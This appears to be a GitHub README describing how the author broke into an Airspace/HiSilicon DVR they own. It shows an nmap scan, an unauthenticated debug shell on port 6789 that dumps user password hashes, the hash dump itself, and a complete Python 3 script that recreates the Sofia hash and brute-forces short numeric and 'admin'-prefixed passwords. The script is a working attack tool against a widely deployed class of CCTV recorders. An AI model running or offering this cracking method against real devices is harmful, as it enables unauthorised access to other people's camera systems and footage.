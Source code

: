 # HiSilicon_DVR_hack_python3
Python3 script to bruteforce admin password

So I have a DVR **Airspace CCTV** with a label Model: **SAM-1968**, user has login password as user, but no admin password

nmap scan:
```
Not shown: 65528 closed ports
PORT      STATE SERVICE
23/tcp    open  telnet
90/tcp    open  dnsix
554/tcp   open  rtsp
3800/tcp  open  pwgpsi
6789/tcp  open  ibm-db2-admin
8000/tcp  open  http-alt
49152/tcp open  unknown
MAC Address: 90:02:A9:9B:BB:F2 (Zhejiang Dahua Technology)
```

Was a bit stuck, until I try to netcat to all the ports, see I can login into the port 6789, a debug port, very limited shell with a few commands, anmong them
*users -u* will dump some kind of user list and some kind of *hash*
   
```
1:admin:Ny2SRZzv:1:1, 2, 3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 54, 55, 5
6, 57, 58, 59, 60:admin 's account:1:4          
2:default:OxhlwSG8:2:3, 4, 5, 6, 7:default account:0:4
3:XXXca:4jejqB7V:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4
4:XXXoni:9pmPStaQ:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4  
5:XXXl:ijoPLH3a:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4  
6:XXXta:eq4yRN5P:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4
7:XXXsa:kEuXCZhl     
```

I didn't recognize the hash format, so I started googling until I found a HiSilicon paper on exploit-db.com
https://www.exploit-db.com/papers/44003

On that excelent paper from Istvan Toth he describes the process he used to hack into the system extract the firmware, among that information he describes the user hash that the firmware uses. He even created a python2 script that replicate from the password the hash.
I converted it to python3 and implemented a function to do a quick a dirty search, and it worked, I just try with 4 digits number password and it dumps some of the passwords, for the admin password on that dump I had to go the extra mile and add the word "admin" in front of the digits, and that revelaed the admin123 password.

I'll paste the code here
```
import hashlib
lista =["Ny2SRZzv",
        "OxhlwSG8",
        "4jejqB7V",
        "9pmPStaQ",
        "ijoPLH3a",                                                                            
        "eq4yRN5P",
        "kEuXCZhl" ]
def sofia_hash(msg):
    h = ""
    m = hashlib.md5()
    m.update(msg.encode('utf-8'))
    msg_md5 = m.digest()
    for i in range(8):
        n = (msg_md5[2*i] + msg_md5[2*i+1]) % 0x3e
        if n > 9:
            if n > 35:
                n += 61
            else:
                n += 55
        else:
            n += 0x30
        h += chr(n)
    return h

for i in range(9999):
    h = sofia_hash(str(i))
    #h = sofia_hash("admin" + str(i))
    if h in lista:
        print ("value %s hash %s" % (str(i) ,h))
```
